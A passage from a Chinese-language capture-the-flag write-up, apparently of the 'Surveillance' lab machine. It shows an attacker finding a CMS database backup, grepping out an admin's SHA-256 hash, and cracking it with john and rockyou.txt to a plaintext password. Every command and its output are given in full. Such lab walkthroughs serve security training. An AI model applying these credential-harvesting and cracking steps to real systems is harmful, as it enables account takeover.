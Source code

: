又翻找了一下，发现一个备份文件夹有个sql的压缩文件：
发现
```bash
www-data@surveillance:~/html/craft/storage$ ls backups/
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

将其下载到本地看看，搜索 `Matthew` 果然又有他的凭据信息：
```bash
└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

再来，整理后暴破：
```bash
└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql | awk -F ',' '{OFS=":"; print $10,$13}' | tr -d "'"
Matthew:39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql | awk -F ',' '{OFS=":"; print $10,$13}' | tr -d "'" > cred-Matthew.txt

└─$ hash-identifier    
 (...)
 HASH: 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

Possible Hashs:
[+] SHA-256
[+] Haval-256
 (...)


└─$ john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt cred-Matthew.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
No password hashes left to crack (see FAQ)

└─$ cat hash.txt                                 
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

└─$ john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starcraft122490  (?)     
1g 0:00:00:00 DONE (2023-12-12 23:28) 2.631g/s 9485Kp/s 9485Kc/s 9485KC/s stefon23..sozardme
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

